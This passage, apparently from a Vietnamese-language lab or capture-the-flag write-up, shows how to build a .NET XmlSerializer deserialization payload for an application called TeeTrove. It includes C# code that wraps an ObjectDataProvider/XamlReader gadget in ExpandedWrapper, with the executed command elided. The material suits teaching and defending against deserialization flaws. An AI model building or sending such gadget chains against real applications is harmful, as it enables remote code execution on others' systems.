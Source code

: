 Khi chạy chương trình này, nó sẽ tạo ra một chuỗi XAML chứa thông tin về đối tượng `Process` và các tham số của lệnh.

---

### **Chỉnh sửa và Kiểm tra Payload**

Tiếp theo, ta sẽ chỉnh sửa payload để có thể deserialization đúng cách trong ứng dụng TeeTrove. Lúc này, ta cần sử dụng `ExpandedWrapper` để đóng gói dữ liệu XAML và `ObjectDataProvider` trong một đối tượng mà `XmlSerializer` có thể hiểu được.

**Chỉnh sửa Mã với ExpandedWrapper**
```csharp
using System;
using System.IO;
using System.Text;
using System.Xml.Serialization;

namespace TeeImportExploit
{
    internal class Program
    {
        static void Main(string[] args)
        {
            // Tạo một payload XAML
            string payload = "<ObjectDataProvider xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' MethodName='Start'><MethodParameters><anyType xsi:type='xsd:string'>...</anyType></MethodParameters></ObjectDataProvider>";

            // Tạo đối tượng ExpandedWrapper và thêm payload vào
            ExpandedWrapper<XamlReader, ObjectDataProvider> expWrap = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
            expWrap.ProjectedProperty0 = new ObjectDataProvider();
            expWrap.ProjectedProperty0.ObjectInstance = new XamlReader();
            expWrap.ProjectedProperty0.MethodName = "Parse";
            expWrap.ProjectedProperty0.MethodParameters.Add(payload);

            // Serialize đối tượng ExpandedWrapper với XmlSerializer
            MemoryStream ms = new MemoryStream();
            XmlSerializer xmlSerializer = new XmlSerializer(expWrap.GetType());
            xmlSerializer.Serialize(ms, expWrap);

            // Kiểm tra kết quả
            Console.WriteLine(Encoding.ASCII.GetString(ms.ToArray()));
        }
    }
}
```

Kết quả của mã trên sẽ là một chuỗi XML hoàn chỉnh chứa đối tượng `ExpandedWrapper`, có thể được deserialization thành một đối tượng `XamlReader` và thực thi mã.

---
